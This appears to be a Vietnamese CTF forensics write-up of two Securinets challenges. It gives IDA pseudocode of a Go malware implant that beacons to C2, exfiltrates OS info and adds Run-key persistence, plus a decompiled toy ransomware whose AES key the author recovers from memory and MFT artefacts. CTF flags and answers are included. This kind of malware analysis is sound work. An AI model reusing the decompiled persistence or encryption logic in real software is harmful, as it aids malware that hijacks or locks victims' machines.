

> Q13 : Which registry key did the malware modify or add to maintain persistence?

> ANS: HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\MyApp

Câu này mình load lên `VirusTotal` cho nhanh :)))). Hơi tà đạo tí.



> Q14 : What is the content of this registry?

> Input: C:\Users\ammar\Documents\sys.exe

Nhìn vào hàm `Start` mà ta phân tích trước đó : 

<details>
    <summary>Click</summary>

```pseudocode
// main.(*plant).Start
void __golang main__ptr_plant_Start(_ptr_main_plant a1)
{
  __int64 r0; // rax
  __int64 r1; // rbx
  __int64 v3; // rbx
  error v4; // kr00_16
  error v5; // kr10_16
  __int64 IsAdmin; // rax
  __int64 v7; // rbx
  __int64 v8; // rax
  _QWORD *v9; // rax
  _ptr_main_plant v10; // rcx
  _QWORD v11[2]; // [rsp+8h] [rbp-60h] BYREF
  __int128 v12; // [rsp+18h] [rbp-50h]
  _QWORD v13[2]; // [rsp+28h] [rbp-40h] BYREF
  __int128 v14; // [rsp+38h] [rbp-30h]
  _QWORD v15[2]; // [rsp+48h] [rbp-20h] BYREF
  _QWORD v16[2]; // [rsp+58h] [rbp-10h] BYREF
  retval_66EC00 v18; // 0:kr20_48.48
  retval_476420 v19; // 0:kr50_72.72

  v18 = main__ptr_plant_sendHTTPRequest(a1, (__int64)"GET", 3, (__int64)"/helppppiscofebabe23", 20, 0, 0, 0, 0);
  r0 = v18._r0;
  r1 = v18._r1;
  if ( v18._r4 )
  {
    v16[0] = &RTYPE_string;
    v16[1] = &off_7DB140;
    fmt_Fprintln(off_7DD3E0, qword_A09BF0, v16, 1, 1);
    time_Sleep(120000000000LL, v3);
    main__ptr_plant_Start(a1);
    r0 = v18._r0;
  }
  if ( *(_QWORD *)(r0 + 16) == 200 )
  {
    v15[0] = &RTYPE_string;
    v15[1] = &off_7DB150;
    fmt_Fprintln(off_7DD3E0, qword_A09BF0, v15, 1, 1);
  }
  else
  {
    time_Sleep(15000000000LL, r1);
    v4 = main__ptr_plant_sendOSInfo(a1);
    if ( v4.tab )
    {
      v14 = 0;
      v13[0] = &RTYPE_string;
      v13[1] = &off_7DB160;
      *(_QWORD *)&v14 = *((_QWORD *)v4.tab + 1);
      *((_QWORD *)&v14 + 1) = v4.data;
      fmt_Fprintln(off_7DD3E0, qword_A09BF0, v13, 2, 2);
    }
    else
    {
      v5 = main__ptr_plant_login(a1);
      if ( v5.tab )
      {
        v12 = 0;
        v11[0] = &RTYPE_string;
        v11[1] = &off_7DB170;
        *(_QWORD *)&v12 = *((_QWORD *)v5.tab + 1);
        *((_QWORD *)&v12 + 1) = v5.data;
        fmt_Fprintln(off_7DD3E0, qword_A09BF0, v11, 2, 2);
      }
      else
      {
        IsAdmin = BFimplant_winapiV2_IsAdmin(0, v5.data);
        if ( (_BYTE)IsAdmin )
        {
          v7 = BFimplant_per_Add_excep()._r1;
          v8 = time_Sleep(5000000000LL, v7);
          IsAdmin = BFimplant_per_Add_per(v8);
        }
        BFimplant_per_Add_per2(IsAdmin);
        v9 = runtime_newobject((const RTYPE *)&unk_717200);
        *v9 = main__ptr_plant_Start_gowrap1;
        if ( dword_A51D00 )
        {
          v19 = runtime_gcWriteBarrier1(v9);
          v9 = (_QWORD *)v19._r0;
          v10 = a1;
          *(_QWORD *)v19._r8 = a1;
        }
        else
        {
          v10 = a1;
        }
        v9[1] = v10;
        runtime_newproc();
        main__ptr_plant_Beaconing(a1);
      }
    }
  }
}
```
</details>

Khá nhiều chức năng nhưng ta chỉ cần chú ý đến hàm `BFimplant_per_Add_per`. Hàm `BFimplant_per_Add_per` chính là cái tạo persistence ở Q13. Technique là sử dụng `Run Key` (đã nói ở Q13) nên nội dung của `registry` này chính là đường dẫn đầy đủ của file thực thi.

> 15 : The malware uses a secret token to communicate with the C2 server. What is the value of this key?

> ANS: e7bcc0ba5fb1dc9cc09460baaa2a6986

Đoạn này mình tình cờ tìm được khi mình phân tích hàm `Main` để trả lời Q12. Như mình đã phân tích trước đó sẽ có 1 đoạn XOR để ra C2 IP. Cụ thể là xor với giá trị trong `qword_9F3B08`. Còn cái `token` này thì ở ngay trên. 



FLAG : `Securinets{de2eef165b401a2d89e7df0f5522ab4f}`


# For/LostFile
## Description

My friend told me to run this executable, but it turns out he just wanted to encrypt my precious file.

And to make things worse, I don’t even remember what password I used. 😥

Good thing I have this memory capture taken at a very convenient moment, right?

https://netorgft15219885-my.sharepoint.com/:u:/g/personal/fsaidi_intrinsic_security/EfLtokTYbq5PjzwHlOGDsK8BVlrHZY8CASz2VIkJXPewpQ?e=mm6bhs

> Author : Kaizo

## Solution

Bài này mình thấy nó có vẻ dễ hơn bài trên nhưng vào làm thì thấy nó khoai hơn tí (không hiểu sao nhiều solve kinh). Mình loay hoay mãi để tìm file mã hóa. Do file `AD1` đề bài cung cấp được tạo trên `WindowXP` nên mình không quen với hệ thống file của nó lắm, đành quay ra bắt đầu từ file `memdump` trước. Trong đó mình chú ý thấy 1 file có tên `to_encrypt.txt.enc` :



Quay lại file `AD1` để tìm đường dẫn đến đó và thấy luôn file mã hóa, có tên `locker_sim.exe`. Load vào `IDA`. Mã giả của nó như sau : 

<details>
    <summary>Click</summary>

```pseudocode
int __cdecl main(int argc, const char **argv, const char **envp)
{
  size_t v4; // ebx
  size_t v5; // eax
  char v6[260]; // [esp+34h] [ebp-694h] BYREF
  size_t ElementCount; // [esp+138h] [ebp-590h] BYREF
  void *Buffer; // [esp+13Ch] [ebp-58Ch] BYREF
  size_t v9; // [esp+140h] [ebp-588h] BYREF
  void *Src; // [esp+144h] [ebp-584h] BYREF
  char v11[260]; // [esp+148h] [ebp-580h] BYREF
  BYTE v12[4]; // [esp+24Ch] [ebp-47Ch] BYREF
  int v13; // [esp+250h] [ebp-478h]
  int v14; // [esp+254h] [ebp-474h]
  int v15; // [esp+258h] [ebp-470h]
  BYTE v16[4]; // [esp+25Ch] [ebp-46Ch] BYREF
  int v17; // [esp+260h] [ebp-468h]
  int v18; // [esp+264h] [ebp-464h]
  int v19; // [esp+268h] [ebp-460h]
  int v20; // [esp+27Ch] [ebp-44Ch] BYREF
  void *Block; // [esp+280h] [ebp-448h] BYREF
  CHAR FileName[260]; // [esp+284h] [ebp-444h] BYREF
  CHAR Filename[260]; // [esp+388h] [ebp-340h] BYREF
  char Str[260]; // [esp+48Ch] [ebp-23Ch] BYREF
  BYTE Data[256]; // [esp+590h] [ebp-138h] BYREF
  FILE *Stream; // [esp+690h] [ebp-38h]
  BYTE *pbData; // [esp+694h] [ebp-34h]
  size_t Size; // [esp+698h] [ebp-30h]
  size_t v29; // [esp+69Ch] [ebp-2Ch]
  DWORD ModuleFileNameA; // [esp+6A0h] [ebp-28h]
  char *v31; // [esp+6A4h] [ebp-24h]
  size_t Count; // [esp+6A8h] [ebp-20h]
  CHAR *i; // [esp+6ACh] [ebp-1Ch]
  int *p_argc; // [esp+6BCh] [ebp-Ch]

  p_argc = &argc;
  __main();
  if ( argc <= 1 )
    return 1;
  v31 = (char *)argv[1];
  memset(Data, 0, sizeof(Data));
  if ( read_computername_from_registry(Data, 256) )
  {
    strncpy((char *)Data, "UNKNOWN_HOST", 0xFFu);
    Data[255] = 0;
  }
  fflush(&__iob[1]);
  memset(Str, 0, sizeof(Str));
  memset(Filename, 0, sizeof(Filename));
  ModuleFileNameA = GetModuleFileNameA(0, Filename, 0x104u);
  if ( !ModuleFileNameA || ModuleFileNameA > 0x103 )
    goto LABEL_18;
  for ( i = &Filename[ModuleFileNameA - 1]; i >= Filename && *i != 92 && *i != 47; --i )
    ;
  if ( i >= Filename )
  {
    Count = i - Filename;
    if ( i == Filename )
    {
      strncpy(Str, Filename, 0x103u);
      Str[259] = 0;
    }
    else
    {
      if ( Count > 0x103 )
        Count = 259;
      strncpy(Str, Filename, Count);
      Str[Count] = 0;
    }
  }
  else
  {
LABEL_18:
    strcpy(Str, ".");
  }
  v29 = strlen(Str);
  if ( v29 && (Str[v29 - 1] == 92 || Str[v29 - 1] == 47) )
    __mingw_snprintf(FileName, 260, "%ssecret_part.txt", Str);
  else
    __mingw_snprintf(FileName, 260, "%s\\secret_part.txt", Str);
  Block = 0;
  v20 = 0;
  read_file_to_buffer(FileName, (int)&Block, (int)&v20);
  DeleteFileA(FileName);
  v4 = strlen(v31);
  Size = v4 + strlen((const char *)Data) + v20 + 10;
  pbData = (BYTE *)malloc(Size);
  if ( v20 )
    __mingw_snprintf(pbData, Size, "%s|%s|%s", v31, (const char *)Data, (const char *)Block);
  else
    __mingw_snprintf(pbData, Size, "%s|%s|", v31, (const char *)Data);
  v5 = strlen((const char *)pbData);
  if ( sha256_buf(pbData, v5, v16) )
  {
    puts("SHA256 failed");
    return 1;
  }
  else
  {
    *(_DWORD *)v12 = *(_DWORD *)v16;
    v13 = v17;
    v14 = v18;
    v15 = v19;
    if ( Str[strlen(Str) - 1] == 92 || Str[strlen(Str) - 1] == 47 )
      __mingw_snprintf(v11, 260, "%sto_encrypt.txt", Str);
    else
      __mingw_snprintf(v11, 260, "%s\\to_encrypt.txt", Str);
    Src = 0;
    v9 = 0;
    if ( read_file_to_buffer(v11, (int)&Src, (int)&v9) )
    {
      printf("Target file not found: %s\n", v11);
      return 1;
    }
    else
    {
      Buffer = 0;
      ElementCount = 0;
      if ( aes256_encrypt_simple((int)v16, v12, Src, v9, (int)&Buffer, (int)&ElementCount) )
      {
        puts("Encryption failed");
        return 1;
      }
      else
      {
        if ( Str[strlen(Str) - 1] == 92 || Str[strlen(Str) - 1] == 47 )
          __mingw_snprintf(v6, 260, "%sto_encrypt.txt.enc", Str);
        else
          __mingw_snprintf(v6, 260, "%s\\to_encrypt.txt.enc", Str);
        Stream = fopen(v6, "wb");
        if ( Stream )
        {
          fwrite(Buffer, 1u, ElementCount, Stream);
          fclose(Stream);
          if ( Block )
            free(Block);
          if ( Src )
            free(Src);
          if ( Buffer )
            free(Buffer);
          free(pbData);
          return 0;
        }
        else
        {
          return 1;
        }
      }
    }
  }
}
```
</details>

Hiểu đơn giản là nó thực hiện mã hóa file `to_encrypt.txt`, sử dụng mã hóa AES với mode CBC. File mã hóa sẽ lưu với tên mới là `to_encrypt.txt.enc`. Key được tạo thành từ SHA256 của 3 tham số : `Tham số đầu vào (args[1])| Computer name| Nội dung từ file secret_part.txt`. IV sẽ lấy 16 bytes từ cái hash vừa nói. `ComputerName` thì dễ tìm, có thể sử dụng plugin `envars` của Vol3 hoặc thông qua `registry key`. Cái khó là 2 tham số còn lại : File `secret_part.txt` sẽ bị xóa sau khi đọc. Còn với tham số đầu vào, ta được cung cấp 1 file `memdump`. Mình `strings` thử hoặc dùng plugin `cmdline` trên `Vol3` đều không ra. Cuối cùng mình nghĩ đến việc sử dụng `Vol2`. Build nhanh và chạy `cmdscan`, `cmdline` cũng vẫn không ra. Chợt mình nhớ ra 1 plugin từ hồi làm `MemLab`, đó là `consoles`. Sau khi chạy thì thấy được luôn tham số nhập vào. 



Giờ chỉ còn 1 cái là `secret_part.txt`. Đoạn này mình loay hoay khá lâu vì mình dự định dùng `MFTExplorer` để xem có thể đọc lại nội dung trong file đó khoong. Nhưng khi load vào thì không thấy file đó ở cùng thư mục với file mã hóa. Xong mình `grep -nr` thử cũng không ra. Quá đau đớn!!!


Sau một lúc lướt qua các thư mục thì mình chỉ thấy khả nghi nhất là file có tên `Dc1.txt` bị xóa nằm ở thư mục `RECYCLER`. Đến khi mình load `MFT` vào `MFTExplorer` thì mình mới để ý nó có dòng chữ `secrect_part` mà ta không thể thấy ở trong `FTK Imager`. 



Nice. Đến đây chỉ cần sử dụng `envars` để lấy nốt tên máy và đem đi hash là không. 





Lấy 16 bytes đầu làm `IV`. Vứt vào `Cyberchef` giải mã.



FLAG : `Securinets{screen+registry+mft??}`


